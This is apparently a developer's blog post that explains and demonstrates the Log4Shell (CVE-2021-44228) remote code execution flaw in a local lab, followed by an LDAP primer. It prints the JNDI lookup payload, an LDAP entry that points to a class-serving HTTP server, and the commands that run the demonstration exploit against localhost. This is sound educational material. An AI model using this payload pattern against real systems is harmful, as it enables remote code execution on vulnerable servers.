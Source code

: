 ```yaml
---
layout: post
title:  "Log4Shell"
permalink: /log4shell/
tags: java jndi ldap security log4shell log4j
---
```


A demonstration of how the "log4shell" remote code execution vulnerability in log4j works.

<!--more-->

My [log4shell](https://github.com/ToastNumber/log4shell) repo contains code to demonstrate this **for educational purposes only**. Read more here: [https://www.lunasec.io/docs/blog/log4j-zero-day/](https://www.lunasec.io/docs/blog/log4j-zero-day/) and here [https://nvd.nist.gov/vuln/detail/CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228).


## How it works

* [`DoJndiLookup`](https://github.com/ToastNumber/log4shell/blob/master/src/main/java/com/kelseymckenna/ldap/DoJndiLookup.java) executes the following statement:
    ```
    LOGGER.info("${jndi:ldap://localhost/cn=log4shell,dc=example,dc=com}");
    ```
* Log4J makes a request to the LDAP server ("localhost" here just for testing) with the filter/query `cn=log4shell,dc=example,dc=com`
* The server returns something like this:
    ```
    dn: cn=log4shell,dc=example,dc=com
    objectClass: javaContainer
    objectClass: javaNamingReference
    cn: log4shell
    javaClassName: foo
    javaFactory: Log4Shell
    javaCodebase: http://localhost:8000
    ```
* It makes a request to the file server (in this case just a Python3 "http.server") at `http://localhost:8000/Log4Shell.class`. It determined the URI using the `javaCodebase` and `javaFactory` attributes.
* The `Log4Shell` class implements `javax.naming.spi.ObjectFactory`. The return value from its `getObjectInstance` method is what gets logged in `DoJndiLookup`. The `getObjectInstance` method can have arbitrary code.


## How to run

1. Either build an image from the Dockerfile, e.g. `docker build . -t local/log4shell` then run it, e.g `docker run -it local/log4shell sh` OR run the following (adjust the command for your OS):
    ```
    sudo yum install gcc java-1.8.0-openjdk-devel maven -y
    make customize-config
    ```
2. Run
    ```
    make start-slapd
    make add-log4shell-entry
    ./ldap/search.sh "cn=log4shell,dc=example,dc=com"
    make start-http-server
    make run-exploit # You should see "WARNING: This is an arbitrary command run from Log4Shell.java!" in the logs.
    ```

## LDAP

I'll cover the main things I learned. Don't take this as gospel.

LDAP: lightweight directory access protocol.

A "directory" is a **hierarchical database**. For example, you could have an employee in that directory called Joe who works in the Engineering department at Example Company. He would be identified by a **distinguished name** (dn) of `cn=joe,ou=engineering,dc=example,dc=com`; in English that would be "Common Name: Joe, Organizational Unit: Engineering, Company: example.com" (dc means "domain component"). The entries can have attributes too, see below.

You can add entries to the database with the `ldapadd` command, specifying a `ldif` (LDAP Data Interchange Format) file to load the entries from. Entries are separated by empty lines in `ldif` files that look like this:
```
dn: c=US,dc=example,dc=com
objectclass: country
c: US

# other entries ...

dn: cn=Joe Bloggs,ou=Engineering,c=US,dc=example,dc=com
objectclass: organizationalPerson
cn: Joe Bloggs
sn: Bloggs
title: Vice President
```

In this repo I made my organization "example.com", i.e. `dc=example,dc.com`. This means all entries in the database are **descendants** of this entry. For example, I can't add an entry with a distinguished name of `cn=123`, it would need to be `cn=123,dc=example,dc=com`.

Each entry has an **`objectclass`** attribute that determines the **schema** of the entry (see [RFC2256](https://datatracker.ietf.org/doc/html/rfc2256)). For example, there's a built-in `country` object class that has a schema with a mandatory `c` attribute (the two-letter ISO 3166 country code) and some optional attributes. You have to put the mandatory attributes in the distinguished name; the example entry above for US must have a dn of `c=US,dc=example,dc=com`; it couldn't have a dn of `c=GB,dc=example,dc=com` or `x=US,dc=example,dc=com` or `x=1,c=US,dc=example,dc=com`.

Object classes have a **type hierarchy** with the abstract class `top` at the top. You can specify multiple object class attributes for an entry. You'll see in [`log4shell.ldif`](https://github.com/ToastNumber/log4shell/blob/master/ldap/log4shell.ldif) two object classes: `javaContainer` and `javaNamingReference`. The latter object class is the important one - it has the attributes we need for the exploit - but it is an "auxiliary" object class and its parent `javaObject` is an abstract class, so we specify `javaContainer` to give it a concrete ("structural" in LDAP terms) type.

You can **search** the directory like a database too. E.g. to lookup the entry for the US by ID/distinguished name you can run `ldapsearch -x -s base -b 'c=US,dc=example,dc=com'`. Or if you want to list all entries "under" US, e.g. show all departments and employees in US, then you could change `-s base` to `-s sub`. You can filter by the attributes too.

I used **[OpenLDAP](https://www.openldap.org/)** to get a stand-alone LDAP daemon called **slapd**. The Makefile customizes the database to use "example.com" as the root domain instead of "my-domain.com" and adds an "include" to import the java schema in addition to the core schema. 

In order to **modify** the database we have an admin user with the distinguished name `cn=Manager,dc=example,dc=com`. The admin user and password were configured when we originally created the database with `/usr/local/etc/openldap/slapd.ldif`. When you execute commands you can specify the password inline with `-w <password>` and specify the admin user's dn with `-D <dn>`. E.g. `ldapadd -w secret -D "cn=Manager,dc=example,dc=com" -f ldap/log4shell.ldif` will add the entries in `log4shell.ldif` to the database. The default configuration allows **read-only access to all users**.


## Notes

* Fun fact: AWS EC2 instances have a process running that automatically patches vulnerable applications! If you run `ps -ef | grep log4j-cve` you'll see `/usr/bin/log4j-cve-2021-44228-hotpatch` is running. This means JNDI lookups will print `Patched JndiLookup::lookup()` instead. Read more here: https://aws.amazon.com/blogs/opensource/hotpatch-for-apache-log4j/
* The [`ldap/`](https://github.com/ToastNumber/log4shell/tree/master/ldap) folder has some helper scripts for querying slapd (the LDAP directory server)

